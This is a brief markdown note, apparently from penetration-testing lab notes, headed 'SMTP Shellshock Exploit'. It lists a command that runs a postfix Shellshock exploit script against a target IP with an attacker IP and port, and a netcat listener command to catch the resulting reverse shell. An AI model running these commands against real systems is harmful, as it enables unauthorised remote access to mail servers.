 ## SMTP Shellshock Exploit
- `python2.7 postfix-shellshock-nc.py 10.11.1.231 useradm 192.168.119.245 443`
- Attacker > Turn on Listener via `nc -lvp 443`

